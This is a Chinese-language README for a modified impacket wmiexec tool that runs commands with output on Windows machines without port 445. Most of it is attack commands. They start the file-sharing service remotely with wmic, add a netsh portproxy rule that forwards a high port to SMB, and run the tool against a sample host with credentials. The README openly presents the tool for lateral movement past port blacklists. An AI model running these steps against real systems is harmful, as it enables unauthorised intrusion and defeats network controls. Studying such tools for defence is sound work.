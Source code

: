 # WMIEXEC-NO445

impacket的wmiexec在没有打开445端口的情况下，进行有回显的命令执行工具。

## 安装方法

在安装好impacket的情况下，直接使用wmiexec-no445.py替换wmiexec.py就行。

## 原理介绍

此方法是通过wmi的silentcommand模式来直接通过135和高端口进行命令执行，后通过目标机器的netsh将高端口的流量转发到445，从而达到绕过445端口进行有回显的命令执行。因此此方法相比于wmi的silentcommand模式命令执行没有增加任何限制条件，只要能进行命令执行就能有回显。并且因为是通过smb来进行回显，因此也没有回显的长度限制。

## Windows手动回显命令执行

### 一、先打开文件共享服务

> wmic /node:172.16.178.9 /user:windows8 /password:* service where name="LanmanServer" call startservice

### 二、进行端口转发(将445端口转发到44500端口)

> wmic /node:172.16.178.9 /user:windows8 /password:* process call create "cmd.exe /c netsh interface portproxy add v4tov4 listenport=44500 listenaddress=0.0.0.0 connectport=445 connectaddress=127.0.0.1"

### 三、通过原始的impacket进行命令执行

在执行之前需要修改nmb.py中的SMB_SESSION_PORT值为更改的端口

> python3 wmiexec.py windows.local/windows8:*@172.16.178.9 "whoami"

## 工具使用方法

* 工具使用的前提是目标机器设置的端口黑名单，有打开135端口和10000以上的高端口，就能通过此工具进行横行移动了。

在目标没有打开445的情况下执行回显命令（默认445的转发端口为44500）：

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 "ipconfig" -no445

在指定50000为445的转发端口下执行回显命令：

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 "ipconfig" -no445 -proxyport 50000

清除目标机器中的端口转发设置（默认清除44500）

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 -clearport

清除目标机器中的特定转发端口

> python3 wmiexec-no445.py windows.local/windows8:*@172.16.178.9 -portclear -proxyport 50000

## 使用实例

![image-20220209111347219](/Users/windows7/Documents/ReadMe/image-20220209111347219.png)

